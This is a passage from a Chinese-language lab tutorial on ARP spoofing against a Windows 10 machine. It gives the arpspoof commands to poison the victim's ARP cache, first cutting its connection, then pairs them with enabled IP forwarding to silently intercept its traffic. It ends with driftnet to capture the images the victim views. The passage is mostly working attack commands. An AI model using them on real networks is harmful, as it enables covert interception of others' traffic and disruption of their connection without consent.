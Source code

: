 #### 2.1 实验环境

攻击机： kali 192.168.43.117   （eth1网卡）

受害机：win10 192.168.43.251

FTP 服务器： win2008 168.43.48

网关：  192.168.43.220

#### 2.2 开始操作

```bash
arpspoof -i eth1 -t 192.168.43.251 -r 192.168.43.220
#            网卡           被攻击机            网关
# 欺骗对方我是网关
```



[![rGium4.md.png](https://s3.ax1x.com/2020/12/17/rGium4.md.png)](https://imgchr.com/i/rGium4)



可以看到，直接断网。

但是我们想让对方没有出现断网，并且我们还可以捕获对方流量。

请看如下操作。

#### 2.3 图片嗅探操作

使用ettercap嗅探。

linux默认是不开启ip转发的，所以我们这里手动开启，关于ip转发的配置文件写在/proc/sys/net/ipv4的ip_forward中，默认为0（不转发），我们改成1（为1的话目标不会断网）

```
echo 1 >/proc/sys/net/ipv4/ip_forward    //这句意思是向这个文件写入1
```

操作之前，可以去先看看 arp 缓存表

```cmd
arp -a
# 记下，对应ip 端 第一个动态缓存，等到被欺骗后在查看。
```

进行欺骗(网络出了点问题，使用 eth0网卡)

```bash
arpspoof -i eth0 -t 192.168.43.251 -r 192.168.43.220
```

此时因为做了ip转发，而流量会经过我们当前的kali，所以是可以成功上网的。（使其断网，关掉IP转发即可）

但是此时win10的arp缓存表网关地址已经变成了kali的ip.

既然目标流量会经过我们这里，那么开启一下driftnet ，便可捕获图片，我们新开一个终端，输入命令

```bash
apt install driftnet
driftnet -i eth0
```
